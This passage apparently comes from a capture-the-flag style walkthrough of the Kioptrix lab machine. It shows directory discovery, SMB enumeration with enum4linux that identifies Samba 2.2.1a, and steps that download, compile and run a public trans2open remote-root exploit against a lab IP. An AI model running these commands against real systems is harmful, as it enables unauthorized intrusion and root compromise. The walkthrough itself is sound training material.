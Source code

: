 Found directories (HTTP 200):

```
/manual/
/manual/mod/
/icons/
```

No direct credentials or config files were exposed by the web app in this case.

---

## 4. SMB enumeration
Enumerate SMB using `enum4linux`:

```bash
enum4linux -a 192.168.1.106
```

Sample output (abbreviated):

```
Starting enum4linux v0.8.9 ( http://www.portcullis.co.uk/projects )
...
Sharename       Type      Comment
IPC$            IPC       IPC Service (Samba Server)
ADMIN$          IPC       IPC Service (Samba Server)

Server: KIOPTRIX
Workgroup: MYGROUP
[+] OS: Linux (Samba 2.2.1a)
```

Samba version from service fingerprints indicated **Samba 2.2.1a** (or similar), which is vulnerable to remote root exploits (e.g., trans2open / related vuln families).

---

## 5. Exploitation (public exploit)
I downloaded and compiled a public exploit to target the vulnerable Samba service.

> **Important:** Do not include exploit source code directly in this public repo. Link to the canonical Exploit-DB entry instead.

Example steps used in the lab:

```bash
# Download exploit (example Exploit-DB link; do not run against unauthorized targets)
wget https://www.exploit-db.com/download/10 -O samba-exploit.c

# Compile
gcc samba-exploit.c -o exploit

# Run exploit (example)
./exploit -b 192.168.1.106
```

